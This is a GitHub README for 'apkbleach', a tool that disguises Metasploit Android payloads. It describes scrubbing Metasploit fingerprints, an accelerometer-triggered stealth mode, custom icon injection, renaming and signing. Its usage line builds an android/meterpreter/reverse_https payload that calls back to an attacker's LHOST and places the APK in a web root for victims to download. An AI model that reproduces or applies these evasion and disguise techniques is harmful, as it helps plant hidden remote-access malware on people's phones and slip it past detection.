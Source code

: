 # apkbleach_2.0
The newest release of apkbleach

**About:**

This software was developed specifically for Kali-Linux to remove the obvious fingerprints of metasploit through out a android PAYLOAD along with assisting the user in making PAYLOAD.apk more installable across a wider range of devices.

**Features:**

1) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

2) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

3) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

4) Renames the application to the name you put chose as the ouput file

5) Scrubs the entire application of any mentions of the name "metasploit" or "stage". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

6) Adds padnops to PAYLOAD

7) Signs apk with jarsigner. msfenom produces unsigned apps

8) Zip aligns apk

9) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk

 apkbleach --list-payloads
 
 apkbleach --list-icons
 
 apkbleach --clear-cache
 

optional arguments:

  -h, --help            show this help message and exit
  
  -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
  -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
  -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
  -o [output/path/for/apk]
                        Path to output apk
                        
  --edit-permissions    Enables permission editing in apk's manifest
  
  --list-payloads       List available icons
  
  --list-icons          List available icons
  
  --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
